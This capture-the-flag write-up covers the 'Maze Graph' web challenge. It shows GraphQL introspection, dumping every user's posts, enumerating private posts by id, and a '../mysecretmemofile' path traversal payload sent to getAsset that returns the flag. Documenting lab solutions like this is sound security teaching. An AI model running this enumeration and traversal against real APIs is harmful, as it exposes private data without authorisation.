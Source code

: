 # Maze Graph

Category: web

Points: 100

Solved by: drw0if

## Problem

Now R-Boy can start his chase. He lands in 1230 BC during the reign of Ramses II. In the Valley of the Temples, Zer0 has plundered Nefertiti’s tomb to resell the precious treasures on the black market. By accident, the guards catch R-Boy near the tomb. To prove he’s not a thief, he has to show his devotion to the Pharaoh by finding a secret note.

## Writeup

We are provided with the url `gamebox1.reply.it/a37881ac48f4f21d0fb67607d6066ef7/`, the corresponding page said that a `/graphql` url was present on the domain, so we went there.

What we found was a [graphiql](https://github.com/graphql/graphiql) instance so definitely we must face a graphql challenge.

Graphql is an `open-source data query and manipulation language for APIs` so it is possible to retrieve and store data in a much easier way then writing and using REST policy.

Thanks to graphiql we can discover easily the requests we can make, so we don't need to find out ourselves. In particular the following query were available:

Request | Meaning
--- | ---
allPublicPosts -> [Post] | retrieves data from the post marked as public
allUsers -> [User] | retrieves data from all the users
me -> User | retrieves the current user data
post(id: int) -> Post | retrieves data from the speciefied post
user(id: int) -> User | retrieves data from the specified user
getAsset(name: String) -> String | retrieves a string from the the specified name


There were also some user-defined objects with the following structure:

```
{
  "name": "RootQuery",
  "kind": "OBJECT",
  "fields": ["me", "allUsers", "user", "post", "allPublicPosts", "getAsset"]
}
{
  "name": "User",
  "kind": "OBJECT",
  "fields": ["id", "username", "firstName", "lastName", "posts"]
}
{
  "name": "Post",
  "kind": "OBJECT",
  "fields": ["id", "title", "content", "public", "author]
}
```

This could be found using the following `__schema` query:
```
{
  __schema {
    types {
      name
      kind
      fields {
        name
      }
    }
  }
}
```

We firstly looped through all the public posts but nothing important was there. We then queried all the users and for each of them we retrieved their posts:
```
{
allUsers{
  id
  username
  firstName
  lastName
  posts{
    id
    content
  }
}}
```
and again nothing important was there.

We then moved on to the `post(id)` query; we didn't know the id range but it was for sure an incremental numeration. So we decided to enumerate all the posts starting from 1 and for each of them we printed only the private one and only the ones whose content didn't started with "uselesess". With this enumeration we found a post with `id = 40` with the content:

```
{
  "data": {
    "post": {
      "id": "40",
      "title": "Personal notes",
      "content": "Remember to delete the ../mysecretmemofile asset.",
      "public": false
    }
  }
}
```

We knew we were near the end, so we used the getAsset API:
```
{
  getAsset(name: "../mysecretmemofile")
}
```

And we got the flag:
```
{
  "data": {
    "getAsset": "{FLG:st4rt0ffwith4b4ng!}\n"
  }
}
```